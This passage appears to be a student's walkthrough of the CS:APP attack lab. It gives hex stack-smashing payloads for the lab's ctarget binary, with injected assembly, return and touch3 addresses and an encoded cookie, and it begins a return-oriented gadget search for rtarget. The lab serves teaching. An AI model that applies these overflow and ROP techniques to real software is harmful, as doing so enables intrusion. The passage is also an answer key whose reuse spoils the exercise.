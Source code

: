     00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    78 04 67 55 00 00 00 00
    94 14 40 00 00 00 00 00
    ```
  * check solution, call the ctarget with phase2 answer
    * `cat phase_2.txt | ./hex2raw | ./ctarget`
## Phase 3
* Similar to phase 2, but now we have to pass cookie as string
* total bytes for the cookie are `buffer + 8 bytes for return address rsp + 8 bytes for touch3`
* `0x28 + 0x8 + 0x8 = 0x38`
* `$rsp` = `0x556704a0`, cookie = `0x5cd61ef1`
* `$rsp` - `0x38` - `0x5` = `0x55670463`
* make phase3.s with following assembly code:
```
mov $0x55670463, %rdi
ret
```
* complile
  * `gcc -c phase3.s`
* disassemble
  * `objdump -d phase3.o`
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 63 04 67 55    mov    $0x55670463,%rdi
   7:   c3                      retq   
```
* this will be the first line in our new text file

Text File `phase_3.txt`:
```
48 c7 c7 63 04 67 55 c3 /* assembly */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* end of padding */
78 04 67 55 00 00 00 00 /* ret to buffer begin */
ab 15 40 00 00 00 00 00 /* touch3 address */
35 63 64 36 31 65 66 31 00 /* cookie */
```
* then we add 4 lines of padding to make the buffer equal to `0x28` (40)
* 6th line will be the return address of the buffer
* 7th line will be address of touch3: `4015ab`
* last line will be the string representation of the cookie as hex
  * determined with ASCII table

## Phase 4
* create rtarget assembly file
  * `objdump -d rtarget > rtarget.asem`
* recall phase 2 depended on inserting the following assembly code:
  ```
    mov $0x5cd61ef1, %rdi 
    ret
  ```
* we want to do the same here, but cannot inject code, so we have to look at functions in the farm that can do the same thing
* The first gadget will be `popq %rax`
  * this has an encoding value of `58` in hex
* Find function in farm that has a `58` followed by a `c3`
  * `c3` means `ret`